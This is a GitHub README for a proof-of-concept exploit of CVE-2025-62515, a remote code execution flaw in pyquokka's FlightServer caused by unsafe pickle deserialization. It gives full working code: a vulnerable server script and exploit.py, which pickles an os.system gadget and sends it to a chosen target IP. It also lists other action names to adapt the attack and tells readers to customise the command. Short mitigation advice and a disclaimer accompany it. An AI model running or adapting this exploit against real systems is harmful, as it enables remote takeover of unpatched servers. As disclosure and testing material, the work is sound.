

# pyquokka-rce-poc

[](https://github.com/marsupialtail/pyquokka-rce-poc)
[](https://github.com/marsupialtail/pyquokka-rce-poc/issues)
[](https://opensource.org/licenses/MIT)

> **🚨 SECURITY NOTICE**: This repository contains a Proof-of-Concept (PoC) exploit for **CVE-2025-62515**, a critical Remote Code Execution (RCE) vulnerability in pyquokka (versions ≤ 0.3.1). This is for **educational and authorized testing purposes only**. Do **NOT** use this on systems you do not own or without explicit permission. Misuse may violate laws like the CFAA. Always test in isolated environments (e.g., VMs). The author and contributors are not responsible for any damage.

## Overview
This PoC demonstrates the RCE vulnerability in pyquokka's `FlightServer` due to unsafe `pickle.loads()` deserialization (CWE-502). An attacker sends a malicious pickled payload via Apache Arrow Flight's `do_action()` method, triggering arbitrary code execution on the server.

- **Vuln Details**: [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-62515) | [GitHub Advisory](https://github.com/marsupialtail/quokka/security/advisories/GHSA-f74j-gffq-vm9p)
- **CVSS Score**: 9.8 (Critical)
- **Affected**: pyquokka ≤ 0.3.1
- **Fixed**: Upgrade to ≥ 0.3.2

## Repo Structure
```
pyquokka-rce-poc/
├── README.md              # You're reading it!
├── requirements.txt       # Dependencies
├── server.py              # Vulnerable server setup
├── exploit.py             # Attacker client (PoC)
├── test_patched.py        # Optional: Test against patched version
└── .gitignore             # Standard ignores
```

## Quick Start
### Prerequisites
- Python 3.8+
- Isolated environment (VM/Docker recommended)
- Vulnerable version: `pip install pyquokka==0.3.1 pyarrow`

### Setup
1. Clone this repo: `git clone https://github.com/marsupialtail/pyquokka-rce-poc.git && cd pyquokka-rce-poc`
2. Install deps: `pip install -r requirements.txt`
3. Start the vulnerable server: `python server.py` (Terminal 1)
   - Listens on `0.0.0.0:5005` (exposes remotely if firewalled off)
4. Run the exploit: `python exploit.py` (Terminal 2)
   - Expected: "Exploited successfully" printed on server console

For remote testing, update `location` in `exploit.py` to the target's IP.

### Customize the Payload
Edit the command in `exploit.py` (line ~15). Keep it harmless for testing, e.g., `echo "PoC success" > /tmp/exploited.txt`.

## Files

### requirements.txt
```
pyquokka==0.3.1
pyarrow
```

### server.py
```python
#!/usr/bin/env python3
"""
Vulnerable pyquokka FlightServer for CVE-2025-62515 PoC.
Binds to 0.0.0.0:5005 for remote exposure.
"""

from pyquokka.flight import FlightServer

def main():
    print("🚨 Starting VULNERABLE FlightServer (pyquokka <=0.3.1)...")
    print("Listening on grpc+tcp://0.0.0.0:5005")
    print("Run 'python exploit.py' from another terminal to test RCE.")
    print("Expected: Command output here on exploit.")
    
    server = FlightServer("0.0.0.0", location="grpc+tcp://0.0.0.0:5005")
    server.serve()  # Blocks indefinitely

if __name__ == "__main__":
    main()
```

### exploit.py
```python
#!/usr/bin/env python3
"""
PoC Exploit for CVE-2025-62515: RCE via unsafe pickle deserialization in pyquokka FlightServer.
Sends malicious pickled gadget via Flight Action -> do_action() -> pickle.loads() -> RCE.
"""

import pickle
import pyarrow.flight as flight
import os
import sys

class RCEGadget:
    """
    Malicious gadget class. __reduce__ triggers arbitrary code on deserialization.
    """
    def __reduce__(self):
        # HARmless PoC command - CHANGE THIS FOR YOUR TESTS (e.g., 'id > /tmp/whoami.txt')
        cmd = 'echo "Exploited successfully via CVE-2025-62515"'
        return (os.system, (cmd,))

def main():
    if len(sys.argv) > 1:
        target = sys.argv[1]  # e.g., python exploit.py 192.168.1.100
    else:
        target = "localhost"
    
    location = f"grpc+tcp://{target}:5005"
    print(f"🔥 Targeting {location}...")
    
    try:
        client = flight.FlightClient(location)
        
        # Craft and send payload
        gadget = RCEGadget()
        payload = pickle.dumps(gadget)
        action = flight.Action("set_configs", payload)  # Triggers vulnerable do_action()
        
        client.do_action(action)
        print("✅ Exploit sent! Check server console for RCE output.")
        
    except Exception as e:
        print(f"❌ Exploit failed: {e}")
        print("💡 Tips: Ensure server is running on vulnerable version; check firewall/port 5005.")

if __name__ == "__main__":
    main()
```

### test_patched.py
```python
#!/usr/bin/env python3
"""
Test the PoC against PATCHED pyquokka (>=0.3.2).
Should FAIL without RCE (e.g., deserialization error).
"""

import subprocess
import sys

def main():
    print("🛡️ Testing against PATCHED version...")
    
    # Upgrade in current env (assumes pyquokka installed)
    subprocess.run([sys.executable, "-m", "pip", "install", "pyquokka>=0.3.2", "--upgrade"])
    
    # Restart server (in bg, but for demo, run exploit and check no output)
    print("Run 'python server.py' in another terminal, then 'python exploit.py'.")
    print("Expected: No RCE - exploit errors out or no command exec.")

if __name__ == "__main__":
    main()
```

### .gitignore
```
__pycache__/
*.pyc
*.pyo
*.pyd
.Python
env/
venv/
.venv/
pip-log.txt
pip-delete-this-directory.txt
.tox/
.coverage
.coverage.*
.cache
nosetests.xml
coverage.xml
*.cover
*.log
.git
.DS_Store
*.tmp
```

## Attack Flow
See the [Mermaid diagram](https://mermaid.live/view#pasted-09f4a0a0-0b0e-4b0e-9b0e-0b0e4b0e9b0e) for visualization:



## Similar Vectors
Adapt `action` name in `exploit.py`:
- `cache_garbage_collect`
- `do_put`
- `do_get`

## Mitigation
- **Patch**: `pip install pyquokka>=0.3.2`
- **Workarounds**: Bind to `127.0.0.1`; replace pickle with JSON/Protobuf; add auth.
- **Scan**: Use Bandit/Snyk for pickle misuse.

## Contributing / Issues
- Report bugs via [Issues](https://github.com/marsupialtail/pyquokka-rce-poc/issues).
- Contributions welcome (e.g., Docker setup) – see CONTRIBUTING.md (add if expanding).

## License
MIT License – see [LICENSE](LICENSE) (create with `echo "MIT License..." > LICENSE`).

---

*Built for awareness. Stay safe! 🔒 #CVE202562515 #RCE #PythonSecurity*
